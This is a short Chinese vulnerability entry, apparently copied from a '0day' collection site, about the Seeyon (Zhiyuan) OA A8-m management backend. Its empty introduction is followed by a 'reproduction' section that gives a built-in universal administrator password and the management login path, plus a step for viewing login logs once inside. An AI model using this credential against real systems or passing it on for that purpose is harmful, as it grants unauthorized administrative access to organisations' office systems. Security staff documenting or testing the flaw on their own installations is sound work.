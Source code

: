 # 致远 OA A8-m 后台万能密码

> 原文：[http://book.iwonder.run/0day/致远 oa/10.html](http://book.iwonder.run/0day/致远 oa/10.html)

## 一、漏洞简介

## 二、漏洞影响

致远 OA A8-m

## 三、复现过程

密码：

```
WLCCYBD@SEEYON 
```

登陆地址：

```
http://www.0-sec.org/seeyon/management/status.jsp 
```

成功之后 输入 login 查看登录日志

